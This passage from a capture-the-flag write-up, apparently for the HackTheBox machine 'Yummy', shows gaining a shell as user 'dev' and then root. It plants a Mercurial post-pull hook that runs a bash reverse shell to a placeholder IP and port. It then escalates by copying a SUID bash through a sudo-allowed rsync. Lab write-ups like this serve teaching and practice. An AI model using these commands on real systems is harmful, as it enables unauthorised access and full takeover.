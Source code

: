 1. We setup our malicious repository

```
cd /tmp
mkdir .hg
chmod 777 .hg
cp ~/.hgrc .hg/hgrc  
```

> The `hgrc` file is the Mercurial configuration file, it contains settings such as repository paths and hooks.

![Mercurial file creation](/images/HTB-Yummy/hg_files_creation.png)

2. We add our malicious hook in `/tmp/.hg/hgrc`

> Hooks are used to execute commands at specific events (in our example `post-pull` will run after pulling some changes).

```
[hooks]  
post-pull = /tmp/revshell.sh  
```

![Mercurial hooks](/images/HTB-Yummy/hg_hooks.png)

3. Then we create our `revshell.sh` file inside the `/tmp` folder

```bash
#!/bin/bash  
/bin/bash -i >/dev/tcp/{IP}/{PORT} 0<&1 2>&1
```

4. Lastly we make the reverse shell file executable and run the `hg` command

```
chmod +x /tmp/revshell.sh

sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

> Don't forget to start the listener.

![hg command execution](/images/HTB-Yummy/hg_cmd_exec.png)

On our listener we get a shell as `dev` and we discover that the user can run `rsync`  as root to synchronize the files from `/home/dev/app-production` to `/opt/app` without providing a password.

## Privilege Escalation (Shell as root)

![shell as dev](/images/HTB-Yummy/dev_shell.png)

We can copy a binary, add the SUID bit to it and make its owner `root` in order to escalate our privileges and gain a root shell.

```
cd /home/dev/ 

cp /bin/bash app-production/bash  

chmod u+s app-production/bash  

sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/  

/opt/app/bash -p  
```
